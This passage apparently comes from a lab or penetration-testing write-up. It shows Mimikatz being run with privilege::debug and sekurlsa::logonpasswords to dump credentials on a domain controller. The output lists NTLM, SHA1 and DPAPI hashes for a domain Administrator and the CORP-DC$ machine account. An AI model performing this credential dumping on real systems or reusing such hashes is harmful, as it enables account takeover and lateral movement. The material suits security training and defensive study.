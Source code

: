 and run it to leak the NTLM hash of the machine account:

```powershell
.\mimikatz.exe
privilege::debug

```

```
  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 280701 (00000000:0004487d)
Session           : Interactive from 1
User Name         : Administrator
Domain            : DEV-ANGELIST
Logon Server      : CORP-DC
Logon Time        : 5/31/2025 11:43:37 AM
SID               : S-1-5-21-1954621190-1971745961-1283776715-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : DEV-ANGELIST
         * NTLM     : 2777b7fec870e04dda00cd7260f7bee6
         * SHA1     : bae5c6e0d089a87a81392648a12415c937464543
         * DPAPI    : bd82cf5725e18a97d85f28574f5f121e
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : DEV-ANGELIST
         * Password : (null)
        kerberos :
         * Username : Administrator
         * Domain   : DEV-ANGELIST.LAB
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : CORP-DC$
Domain            : DEV-ANGELIST
Logon Server      : (null)
Logon Time        : 5/31/2025 11:42:19 AM
SID               : S-1-5-20
        msv :
         [00000003] Primary
         * Username : CORP-DC$
         * Domain   : DEV-ANGELIST
         * NTLM     : 11bc07660f7c9a2d8f7cead855b8c72b
         * SHA1     : 31564384304c59f6108021d2d7ae67f6dab91dfc
        tspkg :
        wdigest :
         * Username : CORP-DC$
         * Domain   : DEV-ANGELIST
         * Password : (null)
```